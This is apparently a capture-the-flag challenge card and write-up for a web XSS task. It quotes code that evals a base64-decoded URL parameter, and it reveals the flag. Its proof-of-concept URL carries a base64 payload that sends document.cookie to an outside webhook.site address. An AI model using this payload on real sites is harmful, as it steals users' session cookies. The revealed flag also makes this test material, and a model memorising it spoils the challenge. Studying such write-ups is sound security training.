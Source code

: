 # Challenge Name:
cross-site

## Description:
basic vuln that can be so many $$$ in bounties

## Category:
Web

## File:
./dist.zip

## Flag:
`STORM{easy_xss_with_encoded_payload_00fe4bacb1dd}`

## Points:
500

## Author:
k.eii

## PoC
```
    if (url.searchParams.has("key")) {
        let key = url.searchParams.get("key");

        try {
            key = atob(key);
            if (key.includes("run")) {
                eval(key.replace("run", ""));
```
eval key param (base64 encoded needed because of atob)
payload:
`http://proxy/?key=cnVuKGZldGNoKCdodHRwczovL3dlYmhvb2suc2l0ZS9iMjVlMWU5OC01OWIyLTQ5M2QtOGM0Ny05MGI5N2Q5YWEyNWY/JyArIGRvY3VtZW50LmNvb2tpZSkpOw==`
